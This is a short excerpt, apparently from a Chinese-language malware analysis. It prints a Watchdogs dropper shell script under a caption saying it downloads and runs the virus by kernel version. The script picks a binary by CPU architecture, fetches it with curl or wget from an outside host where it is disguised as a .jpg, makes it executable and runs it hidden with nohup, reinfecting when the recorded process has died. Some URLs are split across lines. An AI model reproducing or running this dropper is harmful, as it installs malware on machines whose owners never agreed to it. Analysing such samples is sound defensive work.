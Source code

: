 根据内核版本下载病毒程序并执行：

```
if [ ! -f "/tmp/.lsdpid" ]; then

    ARCH=$(uname -m)

    if [ $`{`ARCH`}`x = "x86_64x" ]; then

        (curl -fsSL http://thyrsi.com/t6/672/1550667479x1822611209.jpg -o /tmp/watchdogs||wget -q http://thyrsi.com/t6/672/1550667479x18226112

09.jpg -O /tmp/watchdogs) &amp;&amp; chmod +x /tmp/watchdogs

    elif [ $`{`ARCH`}`x = "i686x" ]; then

        (curl -fsSL http://thyrsi.com/t6/672/1550667515x1822611209.jpg -o /tmp/watchdogs||wget -q http://thyrsi.com/t6/672/1550667515x18226112

09.jpg -O /tmp/watchdogs) &amp;&amp; chmod +x /tmp/watchdogs

    else

        (curl -fsSL http://thyrsi.com/t6/672/1550667515x1822611209.jpg -o /tmp/watchdogs||wget -q http://thyrsi.com/t6/672/1550667515x18226112

09.jpg -O /tmp/watchdogs) &amp;&amp; chmod +x /tmp/watchdogs

    fi

        nohup /tmp/watchdogs &gt;/dev/null 2&gt;&amp;1 &amp;

elif [ ! -f "/proc/$(cat /tmp/.lsdpid)/stat" ]; then

    ARCH=$(uname -m)

    if [ $`{`ARCH`}`x = "x86_64x" ]; then

        (curl -fsSL http://thyrsi.com/t6/672/1550667479x1822611209.jpg -o /tmp/watchdogs||wget -q http://thyrsi.com/t6/672/1550667479x18226112

09.jpg -O /tmp/watchdogs) &amp;&amp; chmod +x /tmp/watchdogs

    elif [ $`{`ARCH`}`x = "i686x" ]; then

        (curl -fsSL http://thyrsi.com/t6/672/1550667515x1822611209.jpg -o /tmp/watchdogs||wget -q http://thyrsi.com/t6/672/1550667515x18226112

09.jpg -O /tmp/watchdogs) &amp;&amp; chmod +x /tmp/watchdogs

    else

        (curl -fsSL http://thyrsi.com/t6/672/1550667515x1822611209.jpg -o /tmp/watchdogs||wget -q http://thyrsi.com/t6/672/1550667515x18226112

09.jpg -O /tmp/watchdogs) &amp;&amp; chmod +x /tmp/watchdogs

    fi

        nohup /tmp/watchdogs &gt;/dev/null 2&gt;&amp;1 &amp;

fi
```
